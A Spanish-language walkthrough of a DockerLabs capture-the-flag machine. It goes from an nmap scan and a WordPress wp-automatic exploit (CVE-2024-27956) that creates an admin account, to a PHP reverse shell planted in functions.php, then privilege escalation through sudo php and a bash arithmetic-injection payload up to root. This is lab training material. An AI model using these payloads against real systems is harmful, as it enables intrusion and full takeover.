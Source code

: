 ```yaml
---
icon: flag
---
```


# Master DockerLabs (Intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip master.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh master.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 11:53 EST
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-generator: WordPress 6.5.5
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Master
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
```

Si vamos a la pagina web, veremos una pagina normal, pero si nos vamos al `footer` veremos lo siguiente:

```
Created by Master 2024 && Automated By wp-automatic 3.92.0 
```

Vemos que esta utilizando `worpress` y esto puede ser un plugin, que encima nos confirma con una version en especifico, por lo que si buscamos algun `exploit` asociado a dicho plugin, podremos encontrar el siguiente `exploit`.

URL = [Exploit CVE-2024-27956-RCE](https://github.com/diego-tella/CVE-2024-27956-RCE)

Una vez que nos hayamos descargado el script, lo ejecutamos de la siguiente forma:

```shell
python3 exploit.py http://172.17.0.2/
```

Info:

```
[+] Exploit for CVE-2024-27956
[+] Creating user eviladmin
[+] Giving eviladmin administrator permissions
[+] Exploit completed!
[+] administrator created: eviladmin:admin
```

Vemos que ha funcionado y nos ha creado un usuario en `worpress` como administrador con las siguiente credenciales:

```
User: eviladmin
Pass: admin
```

Ahora si nos vamos a `/wp-admin` que es donde estara el login y metemos dichas credenciales, veremos que estamos dentro.

## Escalate user www-data

Nos iremos a `Appearance` -> `Theme File Editor` -> `functions.php`

Dentro de este carchivo pegaremos nuestra `reverse shell`:

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Y antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora tendremos que pulsar en `Update File`, veremos que nos da un error, pero si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 48182
whoami
www-data
```

Vemos que hemos obtenido acceso como el usuario `www-data`, pero antes sanitizaremos la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user pylon

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 0563443ab229:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 0563443ab229:
    (pylon) NOPASSWD: /usr/bin/php
```

Vemos que podemos ejecutar el binario `php` como el usuario `pylon`, por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo -u pylon php -r "system('$CMD');"
```

Info:

```
pylon@0563443ab229:/home$ whoami
pylon
```

Vemos que con esto seremos dicho usuario.

## Escalate user mario

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for pylon on 0563443ab229:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pylon may run the following commands on 0563443ab229:
    (mario) NOPASSWD: /bin/bash /home/mario/pingusorpresita.sh
```

Vemos que podemos ejecutar el binario `bash` junto con el script `.sh` como el usuario `mario` por lo que vamos a ver que contiene el script.

No podremos leerlo, pero vemos lo que parece ser una copia de ese script en esta ubicacion:

```shell
cat /home/pylon/pylonsorpresita.sh
```

Info:

```bash
#!/bin/bash

read -rp "Escribe 1 para ver el canal de pylon: " num

if [[ $num -eq 1 ]]
then    
  echo "https://www.youtube.com/@Pylonet"
else    
  echo "Ingresa el 1"
fi
```

Vemos que puede contener una vulnerabilidad en esta linea:

```bash
if [[ $num -eq 1 ]]
```

Por lo que podremos hacer lo siguiente:

```shell
sudo -u mario bash /home/mario/pingusorpresita.sh
test[$(/bin/bash >&2)]+1
```

Info:

```
mario@0563443ab229:/home/pylon$ whoami
mario
```

Y con esto seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mario on 0563443ab229:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mario may run the following commands on 0563443ab229:
    (root) NOPASSWD: /bin/bash /home/pylon/pylonsorpresita.sh
```

Vemos que podemos ejecutar lo mismo de antes, pero esta vez como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo bash /home/pylon/pylonsorpresita.sh
test[$(/bin/bash >&2)]+1
```

Info:

```
root@0563443ab229:/home/pylon# whoami
root
```

Con esto seremos el usuario `root`, por lo que habremos termiando la maquina.
